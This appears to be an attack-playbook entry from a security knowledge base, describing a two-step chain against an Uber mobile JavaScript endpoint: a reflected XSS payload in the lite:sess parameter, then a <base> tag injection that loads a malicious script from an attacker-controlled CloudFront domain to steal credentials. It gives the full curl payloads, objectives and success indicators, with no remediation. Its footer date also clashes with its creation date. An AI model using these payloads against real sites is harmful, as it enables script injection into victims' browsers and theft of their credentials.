

---
tags:
  - xss
  - reflected-xss
  - csp-misconfiguration
  - javascript-injection
  - credential-theft
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-inject-xss-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Inject-Reflected-XSS-via-lite-sess]]'
  - '[[procedures/Exploit-CSP-Misconfiguration-for-External-Scripts]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in Uber's mobile
  JavaScript endpoint, allowing injection of arbitrary code and leveraging CSP
  misconfigurations for external resource loading.
skill_level: intermediate
impact_level: high
id: 795f9e7d-beb5-4fcd-9ce9-5baa08af21fb
created_at: '2025-12-14T03:15:36.367Z'
updated_at: '2025-12-14T03:15:36.367Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS in Uber lite:sess Parameter Enabling Arbitrary JavaScript Execution and CSP Exploitation

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected XSS in Uber's mobile endpoint to inject and execute arbitrary JavaScript, followed by leveraging CSP weaknesses for further payload delivery.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser with developer tools or [[commands/curl-inject-xss-payload]]

### Target Environment

- Web platform
- Access to Uber's mobile endpoint: https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js
- No specific services/ports beyond standard HTTPS (443)

### Initial Access Requirements

- No credentials required; public-facing endpoint
- Direct network access to the internet
- No prior access needed

## Detailed Attack Procedures

### Step 1: Inject XSS Payload
procedure: [[procedures/Inject-Reflected-XSS-via-lite-sess]]

**Objective**: Craft and send a payload to the lite:sess parameter to break out of the JavaScript string context and inject executable HTML/JavaScript.

**Instructions**: Use [[commands/curl-inject-xss-payload]] to send a GET request with the crafted payload:

```bash
curl "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?lite:sess=%22%7D}%22</script><div%20class%3D%27_b%20_c%20_d%20_e%20_f%20_g%20_h%20_i%20_a3%20_a4%20_a5%20_a6%20_a7%20_a8%20_a9%20_aa%20_ab%20_ac%20_ad%20_ae%20_af%20_ag%20_ah%20_ai%20_aj%20_ak%20_al%20_am%20_an%20_ao%20_ap%20_aq%20_ar%20_as%20_at%20_au%20_av%20_aw%27><a%20href%3D\"http%3A//www.lyft.com\">Some%20arbitrary%20link%20text</a></div>"
```

**Expected Output**: The response reflects the unescaped payload, showing injected <script> and <div> elements.

**Success Indicators**:
- Payload appears unescaped in the JavaScript response
- Browser renders the injected HTML (e.g., the link to lyft.com)

### Step 2: Exploit CSP and Execute External Payload
procedure: [[procedures/Exploit-CSP-Misconfiguration-for-External-Scripts]]

**Objective**: Leverage the reflected XSS to inject a <base> tag or load scripts from allowed *.cloudfront.net domains, escalating to external code execution for data theft.

**Instructions**: Modify the payload to include a <base> tag pointing to an attacker-controlled CloudFront domain, then observe execution in a browser context:

```bash
curl "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?lite:sess=%22%7D}%22</script><base%20href%3D\"https://attacker.cloudfront.net/\"><script%20src%3D\"relative-malicious.js\"></script>"
```

Use browser developer tools to load the endpoint and verify script loading from the base URL.

**Expected Output**: External script loads and executes due to CSP wildcard, potentially alerting an attacker server or stealing credentials.

**Success Indicators**:
- <base> tag injection redirects relative URLs to attacker domain
- Malicious script from CloudFront executes without CSP violation

## Attack Chain Summary

### Key Achievements

1. Successful breakout from JavaScript string via unescaped lite:sess input
2. Arbitrary HTML/JS execution in victim browsers
3. Escalation via CSP misconfiguration to load external payloads from AWS CloudFront

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01*
